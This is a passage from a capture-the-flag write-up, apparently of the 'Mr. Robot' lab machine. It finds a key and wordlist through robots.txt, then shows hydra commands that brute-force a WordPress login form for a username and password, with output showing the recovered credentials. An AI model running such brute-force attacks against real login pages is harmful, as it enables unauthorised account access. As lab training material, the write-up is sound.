 Also let’s have a look at the robots.txt file, as the hint for the first key is “robots”.

```plain
# robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt
```

That seems interesting. We have the first key and we should probably also download the dictionary file. Maybe we will need it later.

## Gaining Access

Meanwhile, our dirbuster results should have come back. We can see a lot of folders and files relating to a WordPress installation probably for a blog. Especially interesting is the “wp-login.php” file in the root of the webserver. Maybe we can get in that way with the credentials we downloaded earlier? Let us try that.<br/>I used hydra with the following syntax:

```bash
hydra -L fsocity.dic -p test $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```

Basically what we are doing is, we are trying to get the username from the .dic file. Luckily with WordPress, we can see whether the password or the username was wrong, so we first bruteforce the username and then the corresponding password.<br/>We are also telling hydra in which post parameter to insert the username and password. You can get the post parameters through burp suite.

```plain
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-08 11:20:46
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://$IP:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP%2Fwp-admin%2F&testcookie=1:F=Invalid username
[80][http-post-form] host: $IP  login: Elliot   password: test
```

Sweet! Now we got the user: **Elliot**

Next, let us try to get the password!

```bash
hydra -l Elliot -P fsocity.dic $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP%2Fwp-admin%2F&testcookie=1:S=302"
```

We are using the same syntax as before but using “Elliot” as the username and the .dic file as a wordlist for the password.

```plain
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-08 11:22:21
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:1/p:10), ~1 try per task
[DATA] attacking http-post-form://$IP:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP%2Fwp-admin%2F&testcookie=1:S=302
[...]
[80][http-post-form] host: $IP   login: Elliot   password: ER28-0652
```
